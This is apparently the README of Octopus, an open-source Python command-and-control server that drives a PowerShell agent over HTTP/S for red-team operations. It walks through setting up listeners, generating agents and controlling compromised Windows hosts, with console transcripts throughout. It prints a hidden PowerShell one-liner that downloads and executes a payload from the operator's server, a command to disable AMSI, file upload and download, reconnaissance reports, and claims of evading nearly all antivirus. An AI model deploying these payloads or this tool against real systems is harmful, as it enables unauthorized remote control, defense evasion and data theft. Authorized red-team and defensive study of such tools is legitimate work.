








# What is Octopus ? 

  Octopus is an open source, pre-operation C2 server based on python which can control an Octopus powershell agent through HTTP/S.

  The main purpose of creating Octopus is for use before any red team operation, where rather than starting the engagement with your full operational arsenal and infrastructure, you can use Octopus first to attack the target and gather information before you start your actual red team operation.

  Octopus works in a very simple way to execute commands and exchange information with the C2 over a well encrypted channel, which makes it inconspicuous and undetectable from almost every AV, endpoint protection, and network monitoring solution.

  One cool feature in Octopus is called ESA, which stands for "Endpoint Situational Awareness", which will gather some important information about the target that will help you to gain better understanding of the target network endpoints that you will face during your operation, thus giving you a shot to customize your real operation based on this information.

  Octopus is designed to be stealthy and covert while communicating with the C2, as it uses AES-256 by default for its encrypted channel between the powershell agent and the C2 server. You can also opt for using SSL/TLS by providing a valid certficate for your domain and configuring the Octopus C2 server to use it.


  # Octopus key features
  Octopus is packed with a number of features that allows you to gain an insight into your upcoming engagement before you actually need to deploy your full aresenal or tools and techniques, such as:


  * Control agents throught HTTP/S.
  * Execute system commands.
  * Download / Upload files.
  * Load external powershell modules.
  * Use encrypted channels (AES-256) between C2 and agents.
  * Use inconspicuous techniques to execute commands and transfer results.
  * Create custom and multiple listeners for each target.
  * Generate different types of payloads.
  * Support all windows version with powershell 2.0 and higher.
  * Run Octopus windows executable agent without touching powershell.exe process.
  * **Gather information automatically from the endpoint (endpoint situational awareness) feature.**

# Requirements

You can install all of Octopus' requirements via :

```pip install -r requirements.txt```

Octopus has been tested on the following operating systems:

* Ubuntu (18.04)
* Ubuntu (16.04)
* Kali Linux (2019.2)

You will also need to install mono to make sure that you can compile the C# source without issues.

Octopus depends on mono-csc binary to compile the C# source and you can install it by the following command `apt install mono-devel` which has been tested on kali and ubuntu 16.04.

> you can use Octopus without installing mono but you will not be able to use `generate_exe` command.

Also please note that compling C# depends on the `System.Management.Automation.dll` assembly with SHA1 hash a43ed886b68c6ee913da85df9ad2064f1d81c470.

If you encounter any issues using Octopus, feel free to file a [bug report](https://github.com/mhaskar/Octopus/issues)!

# Installation
First of all make sure to download the latest version of Octopus using the following command :

```git clone https://github.com/mhaskar/Octopus/```

Then you need to install the requirements using the following command :

`pip install -r requirements.txt`

After that you can start the octopus server by running the following :

`./octopus.py`

You will by greeted with the following once you run it :

```
┌─[root@kali]─[/opt/Octopus]
└──╼ $./octopus.py


  /$$$$$$              /$$
 /$$__  $$            | $$
| $$  \ $$  /$$$$$$$ /$$$$$$    /$$$$$$   /$$$$$$  /$$   /$$  /$$$$$$$
| $$  | $$ /$$_____/|_  $$_/   /$$__  $$ /$$__  $$| $$  | $$ /$$_____/
| $$  | $$| $$        | $$    | $$  \ $$| $$  \ $$| $$  | $$|  $$$$$$
| $$  | $$| $$        | $$ /$$| $$  | $$| $$  | $$| $$  | $$ \____  $$
|  $$$$$$/|  $$$$$$$  |  $$$$/|  $$$$$$/| $$$$$$$/|  $$$$$$/ /$$$$$$$/
 \______/  \_______/   \___/   \______/ | $$____/  \______/ |_______/
                                        | $$
                                        | $$
                                        |__/


					    V1.0 BETA !


 Octopus C2 | Control your shells


Octopus >>
```
# Usage

Using Octopus is quite simple to use, as you just need to start a listener and generate your agent based on that listener's information.

You can generate as many listeners as you need, and then you can start interacting with your agents that connect to them.


### Profile setup

Before you can start using Octopus you have to setup a URL handling profile which will control the C2 behavior and functions, as Octopus is an HTTP based C2 thus it depends on URLs to handle the connections and to guarantee that the URLs will not serve as a signatures or IoC in the network you are currently attacking, the URLs can be easily customized and renamed as needed.

> Profile setup currently only support URL handling, but with the next few updates you will be able to control additional options such as headers,html templates ,etc...

**Setting up your profile**

To start setting up your profile you need to edit the `profile.py` file , which contains a number of key variables, which are:

  - file_reciever_url : handles file downloading.
  - report_url : handle ESA reports.
  - command_send_url : handles the commands that will be sent to the target.
  - command_receiver_url : handles commands will be executed on the target.
  - first_ping_url : handles the first connection from the target.
  - server_response_header : this header will show in every response.


Example:

```
#!/usr/bin/python2.7

# this is the web listener profile for Octopus C2
# you can customize your profile to handle a specific URL to communicate with the agent
# TODO : add the ability to customize the request headers

# handling the file downloading
# Ex : /anything
# Ex : /anththing.php
file_reciever_url = "/messages"


# handling the report generation
# Ex : /anything
# Ex : /anything.php
report_url = "/calls"

# command sending to agent (store the command will be executed on a host)
# leave <hostname> as it with the same format
# Ex : /profile/<hostname>
# Ex : /messages/<hostname>
# Ex : /bills/<hostname>
command_send_url = "/view/<hostname>"


# handling the executed command
# Ex : /anything
# Ex : /anththing.php
command_receiver_url = "/bills"


# handling the first connection from the agent
# Ex : /anything
# Ex : /anththing.php
first_ping_url = "/login"

# will return in every response as Server header
server_response_header = "nginx"


```

The agent and the listeners will be configured to use this profile to communicate with each other. Next we need to know how to create a listener.

### Listeners

Octopus has two main listeners,"http listener" and "https listener" , and the options of the two listeners are mostly identical.

**HTTP listener :**

`listen_http` command takes the following arguments to start:

- BindIP  		    Defines the IP address that will be used by the listener.
- BindPort      	Defines the port you want to listen on.
- Hostname 		    Will be used to request the payload from.
- Interval 	    	How number of seconds the agent will wait before checking for commands.
- URL  			    The name of the page hosting the payload.
- Listener_name  	Listener name to use.

 you can also view an example of it by running the `listen_http` command:

```
Octopus >>listen_http
[-] Please check listener arguments !
Syntax  : listen_http BindIP BindPort hostname interval URL listener_name
Example (with domain) : listen_http 0.0.0.0 8080 myc2.live 5 comments.php op1_listener
Example (without domain) : listen_http 0.0.0.0 8080 172.0.1.3 5 profile.php op1_listener

##########
Options info :

BindIP  		IP address that will be used by the listener
BindPort  		port you want to listen on
Hostname 		will be used to request the payload from
Interval 		how may seconds that agent will wait before check for commands
URL  			page name will hold the payload
Listener_name  	listener name to use

Octopus >>
```

And we can start a listener using the following command :

`listen_http 0.0.0.0 8080 192.168.178.1 5 page.php operation1`

The following result will be returned:

```
Octopus >>listen_http 0.0.0.0 8080 192.168.178.1 5 page.php operation1
Octopus >> * Serving Flask app "core.weblistener" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: off

Octopus >>
```

a listener has been started successfully, and we can view all the listeners using the `listeners` command:

```
Octopus >>listeners


Name        IP         Port  Host             Interval  Path      SSL
----------  -------  ------  -------------  ----------  --------  -----
operation1  0.0.0.0    8080  192.168.178.1           5  page.php  False


Octopus >>
```

**HTTPS listener :**

To create an HTTPS listener you can use `listen_https` command as such:

```
Octopus >>listen_https
[-] Please check listener arguments !
Syntax  : listen_https BindIP BindPort hostname interval URL listener_name certficate_path key_path
Example (with domain) : listen_https 0.0.0.0 443 myc2.live 5 login.php op1_listener certs/cert.pem certs/key.pem
Octopus >>listen_https 0.0.0.0 443 myc2.live 5 login.php darkside_operation certs/cert.pem certs/key.pem
SSL listener started !
[+]darkside_operation Listener has been created
Octopus >> * Serving Flask app "core.weblistener" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: off

Octopus >>
```

The `listen_https` command takes the following arguments to start:

  - BindIP   : which is the IP address that will be used by the listener
  - BindPort : which is the port you want to listen on
  - Hostname : will be used to request the payload from
  - Interval : how may seconds that agent will wait before check for commands
  - URL page : name will hold the payload
  - Listener_name : listener name to use
  - certficate_path : path for valid ssl certficate (called fullchain.pem for letsencrypt certficates)
  - key_path        : path for valid key for the ssl cerficate (called key.pem for letsencrypt certficates)

Please note that you need to provide a valid SSL certficate that is associated with the domain used.


### Generate agents

**Powershell oneliner**

To generate an agent for the listener `operation1` we can use the following command:

`generate_powershell operation1`

and we will get the following result:
```
Octopus >>generate_powershell operation1

powershell -w hidden "IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.1:8080/page.php');"
```

Now we can use this oneliner to start our agent.

**Octopus EXE agent**

To generate an EXE agent for listener `operation1` we can use the following command:

`generate_exe operation1`

and we will get the following result:

```
Octopus >>generate_exe darkside_operation2 /opt/Octopus/file.exe
[+] file compiled successfully !
[+] binary file saved to /opt/Octopus/file.exe
Octopus >>
```

> Please note that you have to install mono-csc to compile the C# source.

### Interacting with agents

First of all you can list all connected agents using the `list` command to get the following results:
```
Octopus >>list


  Session  IP            Hostname       PID  Username       Domain        Last ping                 OS
---------  ------------  -----------  -----  -------------  ------------  ------------------------  --------------------------------
        1  192.168.1.43  HR-PC-TYRMJ  10056  hr-pc\labuser  darkside.com  Tue Sep  3 10:22:07 2019  Microsoft Windows 10 Pro(64-bit)


Octopus >>
```

And then we can use the `interact` command to interact with the host as follows:

```
Octopus >>list


  Session  IP            Hostname       PID  Username       Domain        Last ping                 OS
---------  ------------  -----------  -----  -------------  ------------  ------------------------  --------------------------------
        1  192.168.1.43  HR-PC-TYRMJ  10056  hr-pc\labuser  darkside.com  Tue Sep  3 10:22:07 2019  Microsoft Windows 10 Pro(64-bit)


Octopus >>interact 1
(HR-PC-TYRMJ) >>
```

You can list all the available commands using the `help` command like the following:

```
Octopus >>list


  Session  IP            Hostname       PID  Username       Domain        Last ping                 OS
---------  ------------  -----------  -----  -------------  ------------  ------------------------  --------------------------------
        1  192.168.1.43  HR-PC-TYRMJ  10056  hr-pc\labuser  darkside.com  Tue Sep  3 10:22:07 2019  Microsoft Windows 10 Pro(64-bit)


Octopus >>interact 1
(HR-PC-TYRMJ) >> help


Available commands to use :

Hint : if you want to execute system command just type it and wait for the results

+++++++++
help  				show this help menu
exit/back 			exit current session and back to the main screen
clear 				clear the screen output
upload 				upload file to the target machine
download 			download file from the target machine
load 				load powershell module to the target machine
disable_amsi 		disable AMSI on the target machine
report 				get situation report from the target


(HR-PC-TYRMJ) >>
```

To execute a system command directly we can type the command directly and then wait for the results based on the interval check time that we set when we created the listener.

```
(HR-PC-TYRMJ) >> ipconfig
[+] Command sent , waiting for results
(HR-PC-TYRMJ) >>
Command execution result is :

Windows IP Configuration


Ethernet adapter Ethernet1:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : home
   Link-local IPv6 Address . . . . . : fe80::f85f:d52b:1d8d:cbae%10
   IPv4 Address. . . . . . . . . . . : 192.168.1.43
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.1.1

Ethernet adapter Ethernet:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Ethernet adapter Bluetooth Network Connection:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :


(HR-PC-TYRMJ) >>
```

In this case the command has been encrypted and then sent to the agent, after that the client will decrypt the command and execute it, the agent will encrypt the results, and finally send it back again to the C2 to decrypt it and show the results.

We can also use the `report` command to get the ESA information like the following:

```
(HR-PC-TYRMJ) >> report
[+] Command sent , waiting for results
(HR-PC-TYRMJ) >>
Endpoint situation awareness report for HR-PC-QNGAV

=============
Hostname : 	HR-PC-QNGAV
Domain : 	darkside.com
OS : 		Microsoft Windows 10 Pro(64-bit)
OS build : 	10.0.17134
OS arch : 	64-bit
AntiVirus : 	Symantec
SIEM solution : False
Internal interfaces/IPs :
	IP : 192.168.178.144
	IP : 172.12.1.20


Device language : en-US
Device uptime : 41.6386169797778 hours
Device local time : 21:55(09/09/2019)


(HR-PC-TYRMJ) >>
```

You can load an external powershell module by placing it in the `modules` directory, then executing `load module.ps1`.

Also you can list all of the modules in the modules directory by executing the `modules` command like so:

```
(HR-PC-TYRMJ) >> modules
PowerView.ps1
(HR-PC-TYRMJ) >> load PowerView.ps1
[+] Module should be loaded !
(HR-PC-TYRMJ) >>
```
# Todo
* [ ] Create collaborative team server
* [ ] Add extra information to gather for ESA module
* [ ] Add the capability to generate HTA payloads
* [x] Add generation of compiled binaries
* [ ] Add auto process injection feature
* [x] Add customized profiles for listeners

# Screenshots


* * * *

* * * *

* * * *

* * * *

* * * *

* * * *

* * * *

* * * *


# License

This project is licensed under the GPL-3.0 License - see the LICENSE file for details
